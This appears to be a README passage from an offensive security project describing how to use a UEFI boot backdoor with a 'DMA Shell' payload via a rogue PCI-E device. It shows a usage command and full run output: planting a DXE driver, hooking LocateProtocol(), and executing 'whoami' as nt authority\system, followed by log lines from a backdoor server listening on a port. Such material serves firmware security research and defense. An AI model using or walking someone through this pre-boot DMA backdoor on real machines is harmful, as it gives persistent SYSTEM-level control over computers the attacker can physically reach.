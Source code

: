 
## Using boot backdoor with DMA Shell payload

DMA Shell payload was designed to work with Boot Backdoor specifically for pre-boot DMA attacks use cases. It allows to execute console commands over the rogue PCI-E device, transfer the files and load arbitrary user mode or kernel mode code into the target operating system at the runtime.  

To use Boot Backdoor with DMA Shell there's a separate program `uefi_backdoor_boot_shell.py` that deploys appropriate payload located in `backdoor/dma_shell.dll` and communicates with this payload from the attacker machine using [shared memory channel](https://github.com/Cr4sh/s6_pcie_microblaze/blob/master/python/payloads/DmaBackdoorBoot/backdoor/dma_shell_user/transport.cpp) accessible over the DMA. To use `uefi_backdoor_boot_shell.py` you have to perform the same steps as described in [Deploying the backdoor using pre-boot DMA attack](#deploying-the-backdoor-using-pre-boot-dma-attack) section. Here's an example of `uefi_backdoor_boot_shell.py` output during successful backdoor deployment:

```
$ ./uefi_backdoor_boot_shell.py --command "whoami"
[+] 44544 bytes of payload image read
[+] 21299 bytes of payload image after the compression
[+] Using UEFI system table hook injection method
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a070000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x14847
Backdoor entry RVA is 0x908
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0908
1.759079 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for backdoor load...
[+] Winload image was loaded

              Image base: 0x0086a000
 OslArchTransferToKernel: 0x009c4b20

[+] DONE
[+] Waiting for payload init...
[+] Payload shared memory region is at 0x00200000
[+] Executing command: whoami
[+] Process exit code: 0x00000000

nt authority\system
```


[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724
